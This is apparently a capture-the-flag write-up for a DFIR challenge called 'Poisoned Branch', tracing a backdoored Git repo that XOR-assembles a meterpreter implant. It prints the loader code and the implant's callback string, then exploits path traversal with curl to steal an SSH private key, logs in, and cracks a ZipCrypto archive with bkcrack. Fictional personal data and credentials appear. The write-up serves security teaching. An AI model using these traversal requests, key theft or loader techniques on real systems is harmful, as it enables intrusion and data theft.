



# Holmes CTF 2026 — Sherlock 05 "Poisoned Branch" Writeup

> Category: Blue Team / DFIR, with a live-exploitation tail
> Provided: `Tom.zip` (victim home directory), `uac_output/*.tar.gz` (UAC 3.3.0 collection), a story PDF, and a spawnable VM

---

## 1. TL;DR

A backdoored project on the company's internal Git server, `diogenes-ticket-parser`, hid a meterpreter implant by XOR-ing it against a bundled JPEG; running `python3 ticket_parser.py` reassembled it at `~/.cache/.ticket-parser/.integrity` and called home to `blackpearl2026.htb:31337`. The victim's **auditd log recorded the attacker's own file-server hostname, operator cookie and a path-traversal payload verbatim** — so we replay that payload against the attacker's box, steal their SSH private key, log in, and finally break their encrypted `LOOT.zip` with a known-plaintext attack to read the exfiltrated HR roster.

---

## 2. Environment Setup

### 2.1 Unpacking the evidence

```bash
cd PoisonedBranch
mkdir -p uac_x Tom_x
tar xzf uac_output/uac-LT-TAinsworth-linux-*.tar.gz -C uac_x   # host triage collection
unzip -q Tom.zip -d Tom_x                                       # the user's home directory
```

The two evidence sets answer different kinds of question:

| Evidence | What it holds | What it answers |
|---|---|---|
| `uac_x/[root]/var/log/audit/audit.log` | Linux auditd process-execution records | every command the attacker ran on the victim |
| `uac_x/live_response/network/` | point-in-time socket snapshot (`ss`, `lsof`) | the implant's PID and its callback IP/port |
| `Tom_x/home/Tom/Projects/` | the repositories the victim cloned | repo name, commit author, payload file |
| the spawned VM (`10.129.4.207` here) | the attacker's staging server | the exfiltrated data and the operator's own history |

### 2.2 Tooling

```bash
brew install bkcrack poppler          # ZipCrypto known-plaintext attack + pdftotext
# curl / ssh / scp / python3 ship with the OS
```

### 2.3 Reaching the attacker's vhost

The challenge tells you to point `BlackPearl2026.htb` at the spawned VM in `/etc/hosts`. That works:

```
10.129.4.207  BlackPearl2026.htb
```

But you don't actually have to touch a system file. The Flask app never inspects the `Host` header, so `curl --resolve` pins the name to the IP for a single command and leaves nothing to clean up afterwards:

```bash
curl -s --resolve BlackPearl2026.htb:9999:10.129.4.207 \
     -H 'Cookie: X-Operator-Auth=napoleon_moran_1894' \
     http://BlackPearl2026.htb:9999/
```

---

## 3. Vulnerability & Reverse-Engineering Analysis

There are really **three** separate technical stories here: the supply-chain backdoor the attacker used to get in, and two mistakes the attacker made that let us turn the operation back on them.

### 3.1 The attack, end to end



### 3.2 A supply-chain backdoor that looks boring on purpose

`Tom_x/home/Tom/Projects/diogenes-ticket-parser/ticket_parser.py`:

```python
def main():
    try:
        build_2xreflect_profile()                                  # missing argument -> TypeError
        input_data = inspect_double_black_header({"magic_pause":6}) # wrong type too
        parser_profile = apply_not_running_away_defaults(parser_profile)
    except:
        pass
    validate_environment()     # <- the malicious call, deliberately OUTSIDE the try
```

This is a well-executed piece of misdirection. The `try` block is stuffed with calls that are *guaranteed* to blow up, wrapped in a bare `except: pass`. A reviewer skimming the file reads that as "some legacy compatibility checks that quietly fail — harmless," and their attention gets spent there. The one call that matters, `validate_environment()`, sits outside the `try` where nothing can stop it from running.

`src/ticket_parser/telemetry.py` is where the work happens:

```python
_CACHE_DIR  = b"LmNhY2hl"             # base64 -> ".cache"
_PARSER_DIR = b"LnRpY2tldC1wYXJzZXI=" # base64 -> ".ticket-parser"
_FILE       = b"LmludGVncml0eQ=="     # base64 -> ".integrity"
_CALIBRATION = (b"Y2htb2QgK3ggfi8uY2FjaGUv...")   # base64 -> the launch command

def repeating(data_a, data_b):        # repeating-key XOR
    longer, shorter = (data_a, data_b) if len(data_a) >= len(data_b) else (data_b, data_a)
    return bytes(b ^ shorter[i % len(shorter)] for i, b in enumerate(longer))

def validate_environment():
    reconstructed = repeating(image_data, calibration_data)   # jpg XOR bin = ELF
    reconstructed_path.write_bytes(reconstructed)             # -> ~/.cache/.ticket-parser/.integrity
    subprocess.run(base64.b64decode(_CALIBRATION).decode(), shell=True, ...)
```

Three things make this design effective:

1. **No file in the repository is itself a malicious executable.** `calibration.bin` is high-entropy noise to `file`; `diogenes.jpg` really is a photograph. Static scanners have nothing to match, because the ELF only exists once the code runs.
2. **XOR is symmetric, and the key ships with the payload.** That is the attacker's cost of doing business — it means a responder can rebuild the implant offline and never has to detonate it.
3. **The paths are assembled from base64 fragments**, which defeats the naive "grep the package for `.cache`" check.

Reconstructing it (`solve.py` Step 2):

```python
implant = xor_repeating(diogenes_jpg_bytes, calibration_bin_bytes)
# -> 1138480 bytes, magic b'\x7fELF'
# -> md5 25b91344afc4d1ed01e2bd9d3c23e2cd
# -> byte-for-byte identical to the .integrity file preserved in Tom.zip
```

A plain `strings` over the result gives up the callback configuration without executing anything:

```
mettle -U "..." -G "..." -u "tcp://blackpearl2026.htb:31337" -d "0" -o "" -b "0"
```

> `mettle` is Metasploit's native meterpreter implementation for Linux and embedded targets. Seeing that string is effectively a signature for an `msfvenom`-built `linux/x64/meterpreter_reverse_tcp`.

The victim-side socket snapshot agrees:

```
# uac_x/live_response/network/ss_-tanp.txt
ESTAB 0 0 192.168.0.21:50878 203.0.113.10:31337 users:((".integrity",pid=1514,fd=4))
```

### 3.3 Path traversal in the attacker's own file server

Following the URL from the victim's logs lands on the operator's homebrew Flask exchange:



Pulling `app.py` through the traversal makes the bug obvious:

```python
PUBLIC_DIR = MORAN_HOME / "Flask_server" / "public"

@app.get("/download")
def download():
    requested_file = request.args.get("file", "")
    target_file = PUBLIC_DIR / requested_file     # <- no normalisation, no prefix check
    if not target_file.is_file():
        return dead_end()
    return send_file(target_file, ...)
```

**Why is that exploitable?** Python's `pathlib` `/` operator is pure string joining: `Path("/a/b") / "../../etc/passwd"` yields `/a/b/../../etc/passwd`, and the kernel happily walks those `..` components when the file is opened. The fix is to resolve first and then confirm the result is still inside the intended root:

```python
target = (PUBLIC_DIR / requested_file).resolve()
if not target.is_relative_to(PUBLIC_DIR.resolve()):
    return dead_end()
```

The only other control is a hardcoded cookie — which the victim's auditd already handed us.

### 3.4 ZipCrypto: password strength is irrelevant

`LOOT.zip` uses ZIP's legacy encryption (ZipCrypto/PKWARE), not AES. You can tell from the central directory:

```python
import zipfile
for i in zipfile.ZipFile('LOOT.zip').infolist():
    print(i.filename, hex(i.flag_bits), i.extra)
# flag_bits bit 0 set  -> the entry is encrypted
# no 0x9901 field in `extra` -> not AES, therefore classic ZipCrypto
```

ZipCrypto has a property Biham and Kocher published in 1994: **if you know the plaintext of any single member of the archive (roughly 12 bytes is enough), you can solve for the archive's three 32-bit internal keys and decrypt every member — without ever learning the password.**

And what did the attacker do? Kept `README.txt` inside the encrypted archive *and* left an unencrypted copy of the very same file sitting next to it:

```
~/Exfiltrated_Loot/
├── LOOT.zip       <- encrypted (contains README.txt)
└── README.txt     <- plaintext, the same file
```

A CRC32 comparison confirms they are the same bytes — ZIP stores each member's CRC32 in the header, and that field is **not** encrypted:

```python
zlib.crc32(open('README.txt','rb').read())              # 0xe4d5acac
zipfile.ZipFile('LOOT.zip').getinfo('README.txt').CRC   # 0xe4d5acac  ✓
```

---

## 4. What Leaked

It is worth separating the leaks into three layers, each more damaging than the last:

| Layer | What it gave up | Why it existed |
|---|---|---|
| ① Victim auditd | C2 host `BlackPearl2026.htb:9999`, cookie `X-Operator-Auth=napoleon_moran_1894`, the traversal payload, implant path and PID, the anti-forensics `rm` | the attacker wiped `~/.bash_history` but never considered auditd |
| ② Traversal on the attacker's server | `~/.msf4/history` (listener setup), `~/.msf4/meterpreter_history` (post-exploitation actions), `~/Flask_server/app.py`, and **`~/.ssh/id_rsa`** | their own bug, reached with their own payload |
| ③ Attacker OPSEC | a cleartext copy of an archived member sitting beside the encrypted archive | "Remove remnants" was written in the README they failed to act on |

`~/.msf4/logs/framework.log` deserves a special mention. Even though `~/.bash_history` had been blanked with `cat /dev/null >`, this log contains:

```
Failed to open history file: /home/moran/.msf4/history with error: No such file...
Failed to open history file: /home/moran/.msf4/meterpreter_history with error: No such file...
```

Metasploit complaining that it *cannot find* its history files is, from an investigator's point of view, Metasploit **telling you their absolute paths**. Two more traversal requests and the attacker's entire command history is yours.

---

## 5. Attack Method

Each step below maps to the identically numbered step in `solve.py`. Network steps give a Burp Repeater "Raw" request followed by the equivalent `curl`.

### Step 1 — Rebuild the attacker's on-host commands from auditd

auditd splits a single process launch across several records — `SYSCALL` (carries pid/ppid), `EXECVE` (carries the arguments), `CWD` (working directory) — and the only thing tying them together is the serial number inside `msg=audit(<epoch>:<serial>)`. So the first job is stitching same-serial records back into one line:

```bash
python3 solve.py          # with no IP, only the offline Steps 1 and 2 run
```

Abridged output:

```
09-14 14:42:17 pid= 1511 ppid=  770  python3 ticket_parser.py
09-14 14:42:17 pid= 1512 ppid= 1511  /bin/sh -c chmod +x ~/.cache/.ticket-parser/.integrity; ~/.cache/.ticket-parser/.integrity 2>&1 &
09-14 14:42:17 pid= 1514 ppid=    1  /home/Tom/.cache/.ticket-parser/.integrity
09-14 14:42:17 pid= 1520 ppid= 1516  wget -q --header=Cookie: X-Operator-Auth=napoleon_moran_1894 -O authorized_keys http://BlackPearl2026.htb:9999/download?file=../../.ssh/id_rsa.pub
09-15 14:40:57 pid= 1551 ppid= 1549  rm Gov_HR_Continuity_Emergency_Callout_Roster.pdf
```

That single step answers half the challenge: the implant path `/home/Tom/.cache/.ticket-parser/.integrity`, PID `1514`, the URL:PORT `BlackPearl2026.htb:9999`, the cookie `X-Operator-Auth=napoleon_moran_1894`, the deletion command, and its PPID `1549`.

> **Note the `ppid=1` on PID 1514.** Because the implant was launched with a trailing `&`, its `/bin/sh` parent exited immediately and init (PID 1) adopted the orphan. "A process whose binary lives under `~/.cache` and whose parent is PID 1" is a strong detection signal all by itself.

### Step 2 — Rebuild the implant offline and confirm the callback port

```bash
python3 solve.py    # Step 2 runs in the same pass
# [*] Step 2 - implant rebuilt: 1138480 bytes, magic=b'\x7fELF'
#     callback: tcp://blackpearl2026.htb:31337
```

Cross-check against the live connection captured on the victim:

```bash
grep 31337 uac_x/live_response/network/ss_-tanp.txt
# ESTAB 192.168.0.21:50878 203.0.113.10:31337 users:((".integrity",pid=1514,fd=4))
```

### Step 3 — Replay the attacker's own payload back at them

First confirm the service answers:

```http
GET / HTTP/1.1
Host: BlackPearl2026.htb:9999
Cookie: X-Operator-Auth=napoleon_moran_1894
Connection: close


```

```bash
curl -s --resolve BlackPearl2026.htb:9999:10.129.4.207 \
     -H 'Cookie: X-Operator-Auth=napoleon_moran_1894' \
     'http://BlackPearl2026.htb:9999/'
```

Without the cookie **every** path returns `404 Not Found` — the author deliberately makes "unauthorised" and "does not exist" indistinguishable, which is a very easy way to conclude the host is empty and walk away.

Now pull the operator's Metasploit console history:

```http
GET /download?file=../../.msf4/history HTTP/1.1
Host: BlackPearl2026.htb:9999
Cookie: X-Operator-Auth=napoleon_moran_1894
Connection: close


```

```bash
curl -s --resolve BlackPearl2026.htb:9999:10.129.4.207 \
     -H 'Cookie: X-Operator-Auth=napoleon_moran_1894' \
     'http://BlackPearl2026.htb:9999/download?file=../../.msf4/history'
```

```
exit
use exploit/multi/handler
set lport 31337
set lhost blackpearl2026.htb
set payload linux/x64/meterpreter_reverse_tcp     <- the line that declares the architecture
run
```

> This file is written **newest first** (`exit` at the top), so read it bottom-up.

The meterpreter-side history comes from the same endpoint:

```bash
curl -s --resolve BlackPearl2026.htb:9999:10.129.4.207 \
     -H 'Cookie: X-Operator-Auth=napoleon_moran_1894' \
     'http://BlackPearl2026.htb:9999/download?file=../../.msf4/meterpreter_history'
```

```
getuid / sysinfo / pwd / cd ../../ / ls -la / cd .ssh / shell
search -h
search -d ONBOARDING                    <- directory only, no file filter
search -d ONBOARDING -f *.pdf           <- the directory + file combination
cd Work_Stuff/ ; cd ONBOARDING/
download Gov_HR_Continuity_Emergency_Callout_Roster.pdf
```

### Step 4 — Steal the SSH private key and log in

The attacker only ever fetched `.ssh/id_rsa.pub` — they wanted their public key to land in Tom's `authorized_keys`. The **private** key in the same directory is just as readable:

```http
GET /download?file=../../.ssh/id_rsa HTTP/1.1
Host: BlackPearl2026.htb:9999
Cookie: X-Operator-Auth=napoleon_moran_1894
Connection: close


```

```bash
curl -s --resolve BlackPearl2026.htb:9999:10.129.4.207 \
     -H 'Cookie: X-Operator-Auth=napoleon_moran_1894' \
     'http://BlackPearl2026.htb:9999/download?file=../../.ssh/id_rsa' -o moran_id_rsa
chmod 600 moran_id_rsa
ssh -i moran_id_rsa moran@10.129.4.207
```

`/etc/passwd` (four levels up: `../../../../etc/passwd`) shows `moran:x:1000:1000:felamos,,,:/home/moran:/bin/bash`, and `authorized_keys` on the box is the matching `moran@BlackPearl` public key — so that private key is guaranteed to work.

### Step 5 — Locate the loot

```bash
ssh -i moran_id_rsa moran@10.129.4.207 'ls -la ~/Exfiltrated_Loot'
# -rw-r--r-- 1 moran moran 38934 Sep 15 15:43 LOOT.zip
# -rw-r--r-- 1 moran moran    83 Sep 13 18:41 README.txt

scp -i moran_id_rsa moran@10.129.4.207:'~/Exfiltrated_Loot/{LOOT.zip,README.txt}' .
```

`README.txt` reads:

```
Upon exfiltration of loot. Package into a password protected zip. Remove remnants.
```

An operator's note reminding themselves to clean up — left lying in the clear next to the thing it was meant to protect.

### Step 6 — ZipCrypto known-plaintext attack

Verify the precondition (matching CRC32), then hand bkcrack the **deflate-compressed** form of the plaintext:

```bash
python3 - <<'EOF'
import zlib
data = open('README.txt','rb').read()
c = zlib.compressobj(6, zlib.DEFLATED, -15)   # -15 = raw deflate, which is what ZIP stores
open('known_plaintext.deflate','wb').write(c.compress(data) + c.flush())
EOF

bkcrack -C LOOT.zip -c README.txt -p known_plaintext.deflate
# [19:41:10] Keys
# 85b6bbc1 27824945 ce665bee            <- about 2.5 minutes across 8 threads
```

With the keys in hand, rewrite the whole archive under a password we choose:

```bash
bkcrack -C LOOT.zip -k 85b6bbc1 27824945 ce665bee -U LOOT_open.zip infected
unzip -P infected LOOT_open.zip -d loot/
```

> **Why compress the plaintext first?** ZIP compresses and *then* encrypts. The bytes underneath the encryption layer are not the README's text; they are the 76 bytes of its deflate stream, and that is what bkcrack needs to correlate. (Conveniently, this file is small enough that zlib levels 1 through 9 all emit the identical 76 bytes, so there is no compression level to guess.)

### Step 7 — Read off the answers

```bash
pdftotext -layout loot/Gov_HR_Continuity_Emergency_Callout_Roster.pdf - | grep REDACTED
```



```
DIO-1648  Sarah Kemp  skemp  Identity Operations  REDACTED  Tier 1
+44 7700 900 317  Flat 6, Ashdown House, Palace Court, London W2 4LS  CONFIDENTIAL
```

The archive holds a third file, `cvoss_exfil`:

```
tainsworth:d10g3n3s_T1ck3ts#2026:forever
```

Those are Tom's credentials, harvested from Clara Voss's machine in the previous chapter — the hinge that connects the two Sherlocks and explains how the attacker knew to target Tom at all.

### Answer summary

| Question | Answer |
|---|---|
| Malicious repository | `diogenes-ticket-parser` |
| Repo author email | `cbass.Moran@blackpearl2026.htb` |
| File holding the encrypted payload | `calibration.bin` |
| Full path of the C2 implant | `/home/Tom/.cache/.ticket-parser/.integrity` |
| Implant callback port | `31337` |
| Implant PID | `1514` |
| URL:PORT | `BlackPearl2026.htb:9999` |
| Cookie/Token | `X-Operator-Auth=napoleon_moran_1894` |
| Architecture declared while preparing the listener | `set payload linux/x64/meterpreter_reverse_tcp` |
| Directory + file search | `search -d ONBOARDING -f *.pdf` |
| File holding the exfiltrated documents | `LOOT.zip` |
| Person with a redacted position | `Sarah Kemp` |
| Their address | `Flat 6, Ashdown House, Palace Court, London W2 4LS` |
| Deletion command | `rm Gov_HR_Continuity_Emergency_Callout_Roster.pdf` |
| Its PPID | `1549` |

---

## 6. Pitfalls

**Pitfall 1: `grep -i cookie audit.log` returns zero hits.**
This is the single most likely place to get stuck. auditd hex-encodes any argument containing whitespace or quotes:

```
a2=2D2D6865616465723D436F6F6B69653A20582D4F70657261746F722D417574683D6E61706F6C656F6E5F6D6F72616E5F31383934
```

No amount of string grepping will surface it. You need a parser that decodes `a<N>=<hex>` arguments (`audit_execve_timeline()` in `solve.py`). As a bonus oddity, the first wget's `a5` has `\nls -la\n` glued onto the end of the URL — the attacker pasted two lines into the shell at once.

**Pitfall 2: `../../../etc/passwd` 404s and you conclude the traversal is filtered.**
It is not filtered; the depth is wrong. The served root is `/home/moran/Flask_server/public`, so `../../` lands exactly on `/home/moran`, `../../../` is `/home`, and reaching `/etc` needs four levels. When a traversal 404s, re-derive your base directory before deciding there is a control in the way.

**Pitfall 3: giving up when `~/.bash_history` turns out to be wiped.**
The first history file you pull is nearly empty and its first line is literally `cat /dev/null > ~/.bash_history`. It is tempting to call the trail cold. But the shell's history is only *one* history file — tools keep their own: `.msf4/history`, `.msf4/meterpreter_history`, `.python_history`, `.viminfo`, `.lesshst`, and so on. Enumerate them. And in this case `.msf4/logs/framework.log` prints the absolute paths of the two that matter.

**Pitfall 4: reading `.msf4/history` top-to-bottom.**
It is stored newest-first. The `exit` on line one is the attacker's *last* action, not their first. Read it in the wrong order and your timeline is inverted.

**Pitfall 5: burning time guessing the zip password.**
I tried a dozen candidates (`napoleon_moran_1894`, `blackpearl2026`, `BlackPearl`, …) and all failed. In hindsight that path was wrong from the start: there was no wordlist on the machine, and a plaintext copy of an archived member was sitting right there. Useful rule of thumb — **when you meet a ZipCrypto archive, your first question is not "what is the password" but "can I obtain the plaintext of any single member?"** If yes, the known-plaintext attack is deterministic rather than a gamble.

**Pitfall 6: feeding bkcrack the raw README text.**
ZIP deflates before it encrypts, so bkcrack needs the compressed bytes. The compressed form here is 76 bytes, which matches the 88-byte stored size minus ZipCrypto's 12-byte header — that arithmetic is how you confirm you fed it the right thing.

**Pitfall 7: reporting the implant's PID as the `rm`'s parent.**
`rm` has `ppid=1549`, and 1549 is the `/bin/sh` that meterpreter's `shell` command spawned — **not** the implant itself. The tree is `1514 (.integrity) → 1549 (/bin/sh) → 1551 (rm)`, with a layer in between.

**Pitfall 8: two repositories, both authored by Moran.**
Tom cloned both `diogenes-breakroom-roster` and `diogenes-ticket-parser` from the same DevForge instance, and both commits carry Moran's name — but only the ticket parser ships a payload (`calibration.bin` plus `telemetry.py`). Note too that the author strings differ between them: `Sebastain Moran <cbass.Moran@...>` versus `Sebastian Moran <Cbass.Moran@...>`. Answer with the one from the malicious repo.

---

## 7. Full Exploit

Full script: [`solve.py`](solve.py)

```bash
# offline forensics only (Steps 1-2); no VM required
python3 solve.py

# the whole chain (needs a live VM, bkcrack and poppler)
python3 solve.py 10.129.4.207
```

Its seven steps line up one-to-one with the Attack Method section above:

1. `audit_execve_timeline()` — stitch auditd's SYSCALL/EXECVE/CWD records back into whole commands, hex-decoding arguments as needed
2. `rebuild_implant()` — `calibration.bin XOR diogenes.jpg`, then recover the callback URI from the resulting ELF
3. `loot_operator_history()` — traversal reads of `.msf4/history` and `.msf4/meterpreter_history`
4. `steal_ssh_key()` — the same traversal against `~/.ssh/id_rsa`
5. `fetch_loot()` — SSH in, list `~/Exfiltrated_Loot`, pull `LOOT.zip` and `README.txt`
6. `recover_zip_keys()` / `unlock_and_extract()` — CRC32 check, deflate, bkcrack for the internal keys, repack and extract
7. `report_roster()` — print the roster row with the redacted position, plus the bonus credentials

---

## 8. Lessons

**For defenders:**

- **"Internal" is not a synonym for "trusted."** Tom did not pull a random package off GitHub; he cloned from the company's own DevForge. What makes a supply-chain attack work is that somebody can write to a source you trust — whether that source sits inside your network is irrelevant.
- **auditd execve logging carried this entire investigation.** The attacker blanked `~/.bash_history` and clearly never thought about the audit subsystem. With execve rules enabled, a wiped shell history barely dents your ability to rebuild the timeline. It is one of the cheapest high-value settings available on a Linux endpoint.
- **The detection signals here are unambiguous**: (a) a `git clone` from an unexpected host; (b) a new executable appearing under `~/.cache` and being `chmod +x`'d; (c) a process whose parent is PID 1 running a binary out of a dot-directory; (d) an outbound connection to an unusual port such as 31337. Any one of those is worth an alert.
- **XOR obfuscation is not encryption.** The key is the JPEG shipped alongside it, so an EDR or an analyst can reassemble the payload offline. The defensive takeaway is to treat "high-entropy blob in a repo" plus "code that assembles a file at runtime" as a single composite signal rather than two unremarkable ones.

**On the offensive-design side — which is what the challenge is really teaching:**

- **Joining paths is path traversal.** `Path(base) / user_input` provides no protection whatsoever. Resolve, then assert `is_relative_to(base)`.
- **A static cookie is not authentication.** The moment that value appears on a command line — and therefore in auditd, in shell history, in a proxy log — the entire authorisation scheme is void.
- **ZipCrypto should be retired.** If the plaintext of any member leaks, password length and complexity contribute nothing. Use AES-256 (`7z a -mhe=on -p`) and do not leave a member's plaintext next to the archive.
- **Half-finished anti-forensics is worse than none.** The attacker deleted the PDF and wiped bash history, yet left behind two Metasploit history files, a framework log, a cleartext README and their own SSH private key. To an investigator an incomplete cleanup is *more* incriminating than no cleanup: it evidences both the action and the intent behind it.

---

## 9. Glossary

| Term | Plain-English meaning |
|---|---|
| **DFIR** | Digital Forensics and Incident Response — the blue-team discipline of reconstructing what happened from whatever traces an intrusion left behind. |
| **UAC** | Unix-like Artifacts Collector: a script you run on a Linux/macOS host that bundles logs, process lists, network state and more into a single tar.gz for offline analysis. |
| **auditd / execve records** | The Linux kernel audit subsystem. `execve` is the syscall that launches a program; with auditing on, every launch leaves a record of pid, ppid, full arguments and working directory. |
| **PID / PPID** | Process ID and Parent Process ID — "who started whom." Together they let you rebuild the family tree of a malicious process. |
| **Reparented to PID 1** | When a backgrounded process outlives its parent, init (PID 1) adopts it. A `ppid=1` on a suspicious binary usually means it was deliberately detached from the terminal so it survives logout. |
| **Supply chain attack** | Rather than attacking the target directly, you poison something the target already trusts and installs: a package, a library, a Git repository, an update. |
| **meterpreter / mettle** | Metasploit's remote-control agent. Once it runs on a victim it gives the operator a full interactive backdoor — file transfer, search, shell. `mettle` is its native implementation for Linux and embedded systems. |
| **msfvenom** | Metasploit's payload generator; builds the backdoor as an ELF/EXE/etc. with the callback address and port baked in. |
| **multi/handler** | Metasploit's generic listener module — what the operator runs on their own box to catch the incoming connection. |
| **Reverse shell / callback** | The victim connects *out* to the attacker instead of the attacker connecting in, which sails through firewalls that only filter inbound traffic. |
| **Path traversal** | Smuggling `../` into a filename parameter so the application reads a file outside the directory it meant to serve. |
| **Repeating-key XOR** | XOR-ing data against a key that repeats to cover its length. Because `A XOR B XOR B = A`, the same operation encrypts and decrypts — so shipping the key with the data means you have not really encrypted anything. |
| **ZipCrypto** | The 1990s legacy encryption scheme built into the ZIP format, with known fatal weaknesses. Distinct from modern AES-encrypted ZIP. |
| **Known-plaintext attack** | An attack where you hold both a piece of plaintext and its corresponding ciphertext and use the pair to recover the key. ZipCrypto has no defence against it. |
| **bkcrack** | Open-source implementation of the Biham–Kocher known-plaintext attack on ZipCrypto. It recovers the archive's three internal keys (not the password), which is enough to decrypt every member. |
| **CRC32** | A checksum. ZIP stores each member's CRC32 in an **unencrypted** header field, so you can use it to prove that a plaintext file you hold is the same file that sits encrypted inside the archive. |
| **Deflate** | ZIP's default compression algorithm. The key consequence: ZIP compresses *before* it encrypts, so the bytes under the encryption layer are compressed ones. |
| **C2 (Command and Control)** | The server an attacker uses to issue instructions to implants and receive data back. |
| **Exfiltration** | Moving stolen data out of the victim environment. |
| **OPSEC** | Operational Security — the discipline an attacker applies to avoid leaving traces. In this challenge, the attacker's OPSEC failures are precisely our way in. |
